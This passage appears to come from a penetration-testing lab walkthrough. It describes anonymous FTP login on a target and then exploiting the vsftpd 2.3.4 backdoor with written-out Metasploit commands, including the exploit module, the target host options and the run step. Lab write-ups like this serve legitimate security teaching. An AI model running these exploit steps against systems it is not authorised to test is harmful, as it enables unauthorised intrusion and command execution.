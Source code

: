 ![](../images/anonymous_login_via_ftp_client.png)

**Now we have successfully gained access to the ftp server of our target which has misconfigured ftp service. But with the ftp connection we can't perform that much shell operation as its for limited scope uses. We don't gained any sensitive file or data using this access and hence move forward and try another vulnerability**.

**2. Exploiting Backdoor commmand Execution Vulnerability**: This version of vsftp-2.3.4 has a inbuild backdoor present in its source code which allows as to execute full system command once we got successfully connected to that backdoor.

1. Firstly search for the exploit available for this vulnerability, by searching **vsftpd-2.3.4 exploit** on google or any search engine.
2. From that we got to know that there is metasploit exploit module that can be used to connect to this backdoor.
3. Now exploit this vulnerability using metasploit vsftp exploit as:

`Searching for exploit in the exploit module`
```
searchsploit vsftpd
```
```
#Run the metasploit framework cli using cmd
msfconsole
#search vsftpd backdoor command execution exploit
msf > search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
#check for frequired options
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options
#Set field according to our target
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.103
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
#Run the exploit
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```